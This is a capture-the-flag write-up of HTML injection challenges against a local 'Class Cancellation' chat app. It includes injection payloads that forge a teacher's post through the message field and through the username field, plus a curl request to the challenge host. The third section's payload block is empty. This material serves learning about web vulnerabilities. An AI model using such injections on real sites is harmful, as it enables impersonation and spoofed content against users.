



# HTML/Javascript Injection

## Class Cancellation

```text
The Chat

Login
Username: 
```

After logging in..

```text
The Chat

Post as user
Message: 
```

After posting...



The goal of the challenge is to create a message that looks like it was sent by the teacher, directly mimicing the structure of the other messages, that says Class Is Canceled!

If we log in as "teacher", we get "Posting as the teacher is strictly prohibited!"

We need to craft a post by user that injects HTML to mimic teacher's post. The HTML of the above image is:

```html
<hr>
<b>user:</b>
somepost2
<hr>
<b>user:</b>
somepost
```

Crafting the payload:

```text
gimme flag <hr><b>teacher:</b> Class Is Canceled!
```



Running the `victim` script now gives the flag

## Class Cancellation 2

This is similar to the previous challenge, but this time each `<` in payload is converted into `(`

For posting a message, a GET request is made at `/post?message=<message>&user=<username>`

Since message is sanitized, we can inject HTML in username:

```text
user=</b>gimme flag <hr><b>teacher&message=Class Is Canceled!
curl 'http://challenge.localhost/post?user=%3C%2Fb%3Egimme%20flag%20%3Chr%3E%3Cb%3Eteacher&message=Class%20Is%20Canceled%21'
```



## Class Cancellation 3

In this challenge, we have to formulate some message that sends out the alert Class is Canceled!

Post this payload:

```html

```
